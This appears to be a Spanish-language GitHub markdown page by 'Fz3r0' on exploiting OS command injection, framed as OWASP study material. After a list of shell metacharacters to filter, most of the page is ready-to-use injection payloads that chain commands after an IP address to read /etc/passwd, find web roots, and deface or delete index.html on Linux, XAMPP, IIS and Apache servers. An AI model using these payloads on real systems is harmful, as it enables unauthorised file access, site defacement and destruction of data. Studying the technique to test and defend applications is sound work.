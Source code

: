 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

### 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

Algo un poco mas complejo como un `defacement` se podría ver algo así:

1. Buscar por algún archivo con la extensión `*.html` / buscar directamente por el `*.index.html` / mapear directorio default para hosting de página. 

````sh
# Ejemplo 1
127.0.0.1 ; find / -type f -name "*.html" &

# Ejemplo 2
127.0.0.1 ; ls /var/www/ &

````

2. Crear un nuevo `index.html` con el defacement utilizando un `one-liner`, el original se guarda en un backup `.bak`:

````sh
127.0.0.1 ; cp /var/www/html/index.html /var/www/html/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/html/index.html &

````

O algo todavía más complejo, esto ya es un código HTML para un buen defacement _(aquí borramos la página original sin guardar backup, solo por chingar)_:

- **`Linux`:**

````sh
127.0.0.1 ; rm /var/www/html/index.html && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/html/index.html &

````

- **`Windows`:**

````cmd
## XAMPP copiando original:
127.0.0.1 & ren C:\xampp\htdocs\index.html index.bak & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## XAMPP borrando original:
127.0.0.1 & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## IIS borrando original:
127.0.0.1 & copy NUL C:\inetpub\wwwroot\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\inetpub\wwwroot\index.html &

## Apache copiando original:
127.0.0.1 & ren C:\mi_apache\www\index.html index.bak & copy NUL C:\mi_apache\www\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\mi_apache\www\index.html &

````

## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
